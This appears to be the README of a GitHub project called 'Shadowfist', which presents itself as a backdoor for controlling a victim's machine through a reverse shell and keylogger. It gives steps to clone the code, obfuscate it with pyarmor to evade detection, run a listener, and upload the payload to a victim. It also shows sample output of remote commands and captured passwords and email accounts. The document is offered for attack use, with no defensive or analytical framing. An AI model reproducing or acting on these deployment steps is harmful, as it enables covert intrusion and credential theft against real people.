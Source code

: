 





# Shadowfist

This is an advanced backdoor tool that allows you to remotely access and control a victim's machine. It includes several advanced features, such as a reverse shell and a keylogger.

## Installation

To install the tool, follow these steps:

1. Clone the repository:
```bash
git clone https://github.com/cypherdavy/Shadowfist.git


Compile the code using pyarmor:
pyarmor obfuscate __main__.py
Usage
To use the tool, follow these steps:
Start the reverse shell listener on your machine:
python reverse_shell.py
Upload the compiled code to the victim's machine and run it:
python shadowfist.py
The reverse shell will connect to your machine, allowing you to remotely execute commands and transfer files:
$ ls
Desktop Documents Downloads Music Pictures Public Templates Videos
The keylogger will start recording the victim's keystrokes:
[Keylogger] Started recording keystrokes
[Keylogger] Password: mypassword123
[Keylogger] Email: me@example.com
[Keylogger] Gmail: mygmail@gmail.com

